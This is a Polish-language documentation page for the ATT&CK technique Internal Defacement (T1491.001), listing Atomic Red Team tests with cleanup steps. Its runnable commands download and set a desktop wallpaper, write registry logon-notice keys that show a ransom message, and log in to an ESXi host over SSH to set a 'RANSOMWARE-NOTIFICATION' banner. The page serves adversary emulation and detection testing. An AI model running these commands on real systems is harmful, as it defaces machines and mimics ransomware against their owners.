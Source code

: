 # Alert: Internal Defacement

Opis scenariusza, podatności lub techniki.

---

**Technika:** T1491.001  
**Nazwa:** Internal Defacement  
**Taktyki:** Impact  
**Status:** Pending  
**Autor:** Krzysztof K.  

---

<!--
Tactics: Impact
Technique ID: T1491.001
Technique Name: Internal Defacement
Status: Pending
--> 


---

## Atomic Red Team – dostępne testy dla tej techniki

### Replace Desktop Wallpaper
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
$url = "#{url_of_wallpaper}"
$imgLocation = "#{wallpaper_location}"
$orgWallpaper = (Get-ItemProperty -Path Registry::'HKEY_CURRENT_USER\Control Panel\Desktop\' -Name WallPaper).WallPaper
$orgWallpaper | Out-File -FilePath "#{pointer_to_orginal_wallpaper}"
$updateWallpapercode = @' 
using System.Runtime.InteropServices; 
namespace Win32{

    public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
         
         public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
        }
    }
} 
'@
$wc = New-Object System.Net.WebClient  
try{  
    $wc.DownloadFile($url, $imgLocation)
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
catch [System.Net.WebException]{  
    Write-Host("Cannot download $url") 
    add-type $updateWallpapercode 
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
} 
finally{    
    $wc.Dispose()  
}
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1491.001\Replace_Desktop_Wallpaper/test_1.ps1)

<b>Polecenia cleanup (powershell):</b>
```
$updateWallpapercode = @' 
using System.Runtime.InteropServices; 
namespace Win32{

    public class Wallpaper{ 
        [DllImport("user32.dll", CharSet=CharSet.Auto)] 
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; 
         
         public static void SetWallpaper(string thePath){ 
            SystemParametersInfo(20,0,thePath,3); 
        }
    }
} 
'@
if (Test-Path -Path #{pointer_to_orginal_wallpaper} -PathType Leaf) {
     $orgImg = Get-Content -Path "#{pointer_to_orginal_wallpaper}"
     add-type $updateWallpapercode 
     [Win32.Wallpaper]::SetWallpaper($orgImg)
}
Remove-Item "#{pointer_to_orginal_wallpaper}" -ErrorAction Ignore
Remove-Item "#{wallpaper_location}" -ErrorAction Ignore
```
[Pobierz cleanup_1.ps1](../../scenarios/atomic_tests\T1491.001\Replace_Desktop_Wallpaper/cleanup_1.ps1)

### Configure LegalNoticeCaption and LegalNoticeText registry keys to display ransom message
**Opis:** 

<b>Polecenia testowe (powershell):</b>
```
$orgLegalNoticeCaption = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption).LegalNoticeCaption
$orgLegalNoticeText = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText).LegalNoticeText
$newLegalNoticeCaption = "#{legal_notice_caption}"
$newLegalNoticeText = "#{legal_notice_text}"
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption -Value $newLegalNoticeCaption -Type String -Force
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText -Value $newLegalNoticeText -Type String -Force
```
[Pobierz test_1.ps1](../../scenarios/atomic_tests\T1491.001\Configure_LegalNoticeCaption_and_LegalNo/test_1.ps1)

<b>Polecenia cleanup (powershell):</b>
```
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption -Value $orgLegalNoticeCaption -Type String -Force
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText -Value $orgLegalNoticeText -Type String -Force
```
[Pobierz cleanup_1.ps1](../../scenarios/atomic_tests\T1491.001\Configure_LegalNoticeCaption_and_LegalNo/cleanup_1.ps1)

### ESXi - Change Welcome Message on Direct Console User Interface (DCUI)
**Opis:** 

<b>Polecenia testowe (cmd):</b>
```
echo "" | "#{plink_file}" -batch "#{vm_host}" -ssh -l #{vm_user} -pw "#{vm_pass}" "esxcli system welcomemsg set -m 'RANSOMWARE-NOTIFICATION'"
```
[Pobierz test_1.cmd](../../scenarios/atomic_tests\T1491.001\ESXi_-_Change_Welcome_Message_on_Direct_/test_1.cmd)

[Zobacz testy na GitHubie](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1491.001)
